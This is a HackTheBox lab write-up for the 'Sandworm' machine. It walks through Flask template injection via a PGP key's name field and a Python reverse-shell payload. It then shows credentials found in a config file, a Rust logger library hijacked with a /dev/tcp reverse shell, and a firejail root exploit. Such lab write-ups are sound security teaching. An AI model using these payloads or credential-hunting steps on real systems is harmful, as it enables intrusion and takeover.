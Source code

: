 # [Sandworm](https://app.hackthebox.com/machines/Sandworm) - 25/08/2023 - HackTheBox write-up

IP : `10.10.11.218`
Name : `ssa.htb`

## User flag

### Discovery

On the machine there is only an HTTP and a SSH server, so it will be a web exploitation. On the website we can find a Flask application, a home page, an about page and a contact page.

The contact page allow us to send a PGP encrypted message, using their public key. To help us, there is a guide page that explain how to encrypt, decrypt and verify a signature, and we can do all this actions by submitting forms.

### Searching for vulnerability

Because the app use Flask, it's probably a template injection, so we need to find the entry point. First, I searched in the contact form directly, without success. Then, I tried the "decrypt message" form because the decrypted message is print on the page, but it didn't work.

Finally, I tried the "verify signature" feature, trying to inject Python code in the signed message. It didn't work either. But I noticed that the real-name of the public key is shown in the message if signature verification succeed. And by submitting a key and a signed message with real-name : `{{ 7*'7' }}`, it works and we receive `"7777777"`.

### Exploitation

The steps to run a command with this exploit are annoying, so I wrote a script to make it easier (see `exploit.sh`). It will create a key with the given payload, or a reverse shell by default, sign a message and send them to the server. Because the payload is send in the key, there was some difficulties with encoding and formats, so I decided to send base64 encoded payload, and return base64 encoded result.

I used the following payload to execute commands :
```bash
# Any basic command
cmd="ls -la"
{{request["application"]["__globals__"]["__builtins__"]["__import__"]("os")["popen"]("echo $('${cmd}' | base64 -w 0)")["read"]()}}

# Python reverse shell (could do it in Bash but Python is just more RP)
b64_revshell=$(echo 'import os,pty,socket;s=socket.socket();s.connect(("'${HOST}'",'${PORT}'));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")' | base64 -w 0)
cmd="echo '${b64_revshell}' | base64 -d | python3"
```

After these steps, I could connect to the server as `atlas`, but there isn't any `user.txt`. There is another user, `silentobserver`, so we need to find his password.

There is a very few binaries available as `atlas`, so I have no ideas how to become `silentobserver`. But after a few researches in the file system, I've found a strange `admin.json` in the `.config` directory, and we can find credentials in it. Finally, by testing it on the SSH, we could connect as `silentobserver` and get the flag.

Credentials: `silentobserver:quietLiketheWind22`.

## Root flag

When searching for a way to became `silentobserver` for the user flag step, I found that the machine use ̀`firejail` to isolate the wep app running by `atlas` in another environment. There is a recent CVE on this program that allow a user who can run `firejail` to become `root` (*CVE-2022-31214*).

But after trying the POC I've found ([link](https://www.openwall.com/lists/oss-security/2022/06/08/10/1)), I figured out that `silentobserver` cannot run `firejail`. But `atlas` cannot run `firejail` inside the restricted environment, so we need to find another access.

### Searching for elevating privileges

After some researches, we can find an executable with the suid bit with `atlas` as owner: `/opt/tipnet/target/debug/tipnet`. It's Rust code and the tool isn't writeable to add command execution. But, by inspecting the code, we can find that the program uses a logger library in `/opt/crates/logger/src/lib.rs`, and is writeable.

So, we can inject some code in the library to obtain a reverse shell as `atlas` by editing `/opt/crates/logger/src/lib.rs`:
```rust
use std::process:Command;

let output = Command::new("bash")
    .arg("-p")
    .arg("-c")
    .arg("bash -i >& /dev/tcp/<IP>/<PORT> 0>&1")
    .output()
    .expect("not work");
```

With a `netcat` we can then obtain a reverse shell as `atlas`. To make it easier, I added a SSH key to `.ssh/authorized_keys` to have a SSH connection.

### Exploitation

Now, I can just run the previous exploit for the CVE:
```bash
$ chmod u+x CVE-2022-31214.py
$ python3 CVE-2022-31214.py
You can now run 'firejail --join=<PID>' in another terminal to obtain a shell where 'sudo su -' should grant you a root shell.
```

In another terminal:
```bash
atlas@sandworm:~$ firejail --join=<PID>
changing root to /proc/<PID>/root
Warning: cleaning all supplementary groups
Child process initialized in 9.92 ms
atlas@sandworm:~$ su root
root@sandworm:~$ # we are root
```

Finally we are root and can get the flag.
